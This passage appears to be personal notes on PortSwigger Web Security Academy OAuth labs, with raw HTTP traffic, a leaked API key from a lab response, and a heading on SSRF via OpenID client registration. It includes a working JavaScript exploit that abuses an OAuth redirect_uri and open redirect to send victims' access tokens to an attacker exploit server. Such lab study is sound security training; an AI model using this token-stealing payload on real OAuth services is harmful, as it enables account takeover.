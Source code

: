 ```
HTTP/1.1 200 OK
X-Powered-By: Express
Vary: Origin
Access-Control-Allow-Origin: https://0a3900b50443d6d2c0ec86a500510059.web-security-academy.net
Access-Control-Expose-Headers: WWW-Authenticate
Pragma: no-cache
Cache-Control: no-cache, no-store
Content-Type: application/json; charset=utf-8
Date: Sat, 01 Oct 2022 19:00:18 GMT
Connection: close
Content-Length: 132

{"sub":"wiener","apikey":"ixJYmZzRhk3Bw1G9A77t6gHMGpSRxGaH","name":"Peter Wiener","email":"wiener@hotdog.com","email_verified":true}
```

```
Hello, world!


<script>
    var nonce = "1724837544"

    var client_id = "ajck0nycy6zv0enl2dzzx"
  
    var oauth_uri = "https://oauth-0afd009d04401d81c02fd84802b900be.web-security-academy.net/"

    var lab_uri = "https://0a4f005404601d05c0e2d898009b00c1.web-security-academy.net/"

    var exploit_uri = lab_uri + "oauth-callback/../post/next?path=" + "https://exploit-0a9c00b204db1da8c0dfd820018300e7.web-security-academy.net/exploit/"

    var final_uri = oauth_uri + "auth?client_id=" + client_id + "&redirect_uri=" + exploit_uri + "&response_type=token&nonce=" + nonce + "&scope=openid%20profile%20email"

    if (!document.location.hash) {
        window.location = final_uri
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

### SSRF via OpenID dynamic client registration

https://portswigger.net/web-security/oauth/openid

https://oauth-0a3700db041e2539c02e748d0299008b.web-security-academy.net/.well-known/openid-configuration

```
GET /.well-known/openid-configuration HTTP/1.1
Host: oauth-0a3700db041e2539c02e748d0299008b.web-security-academy.net
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://0a79002004d025bdc0337454004600f7.web-security-academy.net/
```